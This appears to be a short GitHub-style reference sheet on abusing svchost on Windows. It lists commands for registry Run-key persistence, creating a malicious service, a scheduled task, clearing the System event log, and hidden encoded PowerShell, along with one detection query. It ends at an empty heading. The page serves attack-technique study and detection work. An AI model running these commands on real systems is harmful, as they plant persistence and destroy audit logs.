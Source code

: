 ### Registry Persistence

Adding persistence via registry to run malicious svchost on startup

```
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "MaliciousService" /t REG_SZ /d "svchost.exe -k netsvcs -p malicious.dll"
```

```
process.name: "reg.exe" AND process.args: "CurrentVersion\Run" AND process.args: "svchost.exe"
```



### Service Hijacking

Creating a malicious service using svchost

```
sc create MaliciousService binPath= "svchost.exe -k netsvcs -p malicious.dll"
```





### Scheduled Task Abuse

Creating a scheduled task to run malicious svchost

```
schtasks /create /tn "MaliciousTask" /tr "svchost.exe -k netsvcs -p malicious.dll"
```





### Event Log Tampering

Clearing event logs to hide svchost abuse

```
wevtutil cl System
```





### Fileless Malware Execution

Executing fileless malware via PowerShell in svchost context

```
powershell.exe -nop -w hidden -encodedCommand [Base64Code]
```






### Alternate Data Stream Execution
